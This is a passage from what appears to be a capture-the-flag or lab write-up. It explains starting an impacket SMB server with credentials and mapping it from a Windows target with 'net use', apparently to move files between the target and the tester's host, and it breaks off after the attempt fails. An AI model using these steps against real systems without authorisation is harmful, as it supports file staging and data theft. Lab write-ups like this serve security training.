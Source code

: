 


So we do the following commands but we fail:

<figure><img src="../../../../.gitbook/assets/image (930).png" alt=""><figcaption></figcaption></figure>

```
sudo smbserver.py -smb2support -user elfelixio -password TestPass OurShare $(pwd)
```

`sudo smbserver.py -smb2support -user elfelixio -password TestPass OurShare $(pwd)` is used to start a Samba server using Python.

* `smbserver.py`: This is a Python script that emulates a Samba server. Samba is a free software re-implementation of the SMB/CIFS networking protocol, and smbserver.py is a tool that allows you to create a Samba server on the fly.
* `-smb2support`: This option enables SMB2 support. SMB2 is a version of the Server Message Block (SMB) protocol. It was introduced in Windows Vista to improve security and performance over the original SMB protocol.
* `-user elfelixio`: This option sets the username for the Samba server to "elfelixio". This is the username that clients will use to connect to the server.
* `-password TestPass`: This option sets the password for the Samba server to "TestPass". This is the password that clients will use to connect to the server.
* `OurShare`: This is the name of the share that will be created on the Samba server. Clients will use this name to access the shared resources.
* `$(pwd)`: This is a shell command that returns the current working directory. In this context, it means that the Samba server will share the current directory.

```
net use x: \\10.10.14.141\OurShare /user:elfelixio TestPass
```

`net use x: \\10.10.14.141\OurShare /user:elfelixio TestPass` is used in Windows to map a network drive to a shared folder located on another computer or server.

* `net use`: This is the command used to connect to shared resources on a network.
* `x:`: This is the drive letter that will be assigned to the shared resource. You can choose any available letter.
* `\\10.10.14.141\OurShare`: This is the UNC (Universal Naming Convention) path of the shared resource. `10.10.14.141` is the IP address of the computer or server hosting the shared resource, and `OurShare` is the name of the shared folder.
* `/user:elfelixio TestPass`: This specifies the username and password to be used to connect to the shared resource. `elfelixio` is the username, and `TestPass` is the password.

Using some ressources we see that this error is related to NTFS folder so we create one:
